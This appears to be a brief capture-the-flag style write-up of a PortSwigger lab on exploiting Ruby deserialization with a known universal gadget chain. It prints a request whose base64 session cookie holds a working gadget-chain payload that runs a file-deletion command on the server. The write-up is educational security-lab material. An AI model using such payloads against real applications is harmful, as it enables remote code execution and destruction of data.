Hint: Try searching for "ruby deserialization gadget chain" online.

References:

-   https://portswigger.net/web-security/deserialization/exploiting

-   https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html



First intercept a request after logging in:



If we decode we can not read the object as it happens in other labs:



At the end of this blog we have a script to generate a payload -
https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html:



It generates an error but the file is deleted:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /my-account HTTP/2
...
Cookie: session=BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBpb286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVhZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRlYnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdlbTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2RfaWQ6C3N5c3RlbToNQGdpdF9zZXRJIh9ybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dAY7DFQ7EjoMcmVzb2x2ZQ==
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


